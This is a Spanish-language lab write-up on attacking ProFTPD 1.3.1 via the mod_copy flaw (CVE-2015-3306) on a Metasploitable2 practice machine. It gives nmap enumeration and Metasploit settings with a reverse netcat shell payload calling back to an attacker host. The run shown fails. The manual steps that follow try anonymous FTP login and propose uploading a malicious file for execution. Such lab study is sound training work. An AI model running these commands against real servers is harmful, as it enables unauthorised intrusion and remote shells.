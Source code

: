 ### Vulnerabilidad en ProFTPD 1.3.1 - Ejecución Remota de Comandos (RCE)

# 1. Objetivo.
Explorar y explotar una vulnerabilidad conocida en el servicio **ProFTPD 1.3.1** (puerto 2121) presente en la máquina vulnerable Metasploitable2. Esta vulnerabilidad permite la **ejecución remota de comandos** mediante el módulo `mod_copy`.

Se busca obtener acceso al sistema y, si es posible, escalar privilegios a root.

---

**Puerto implicado:** 2121/tcp  
**Servicio:** ProFTPD  
**Versión vulnerable:** 1.3.1  

# 🔍 1. Enumeración y detección del servicio.

```bash
nmap -sV -p 2121 192.168.56.102
```

### Resultado:

| PORT     | STATE | SERVICE | VERSION       |
|----------|-------|---------|---------------|
| 2121/tcp | open  | ftp     | ProFTPD 1.3.1 |

# 🔎 2. Identificación de la vulnerabilidad.

ProFTPD 1.3.1 es vulnerable a un módulo llamado mod_copy, que permite copiar archivos internos a ubicaciones accesibles externamente (como dentro del FTP público).

- 🔧 CVE relevante: [CVE-2015-3306](https://nvd.nist.gov/vuln/detail/CVE-2015-3306).

Permite ejecución de comandos si está habilitado el módulo.

# 💥 3. Explotación con Metasploit.

En Metasploit, esta vulnerabilidad está implementada. 

3.1 Abrimos la terminal y lanzamos el framework Metasploit:

```bash
msfconsole
```

3.2 Cargamos el módulo del exploit:

```bash
use exploit/unix/ftp/proftpd_modcopy_exec
```

3.3 Configuramos las opciones:

```bash
set RHOSTS 192.168.56.102
set RPORT 2121
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.56.101
set LPORT 4445
```

3.4 Verificamos con show options que todo está correcto.

Nos motrará la información detallada de la configuración.

3.5 Ejecutamos el exploit:

```bash
run
```

**Resultado de la explotación:**

Tras realizar el intento de explotación con Metasploit, el módulo `mod_copy` parece **no estar habilitado** en el servidor ProFTPD, por lo que la explotación **no ha sido exitosa**.

**Mensaje de error:**

Exploit aborted due to failure: unknown: Failure copying from /proc/self/cmdline


**Conclusión:**
Aunque la versión instalada (1.3.1) es vulnerable en teoría, el módulo necesario no está habilitado en esta instancia de Metasploitable2. Esto destaca la importancia de verificar la configuración del servicio además de su versión.

# 4. Procedemos a explotación del sistema de manera manual por **FTP**:

```bash
ftp 192.168.56.102 2121
```
Nos preguntará por un usuario y una contraseña:

Name: anonymous
Password: anything

- Si nos permite entrar, podemos subir un archivo malicioso para que el servidor lo ejecute.
- Si no, debemos abortar momentáneamente este servicio vulnerable ya que el acceso anónimo está deshabilitado.



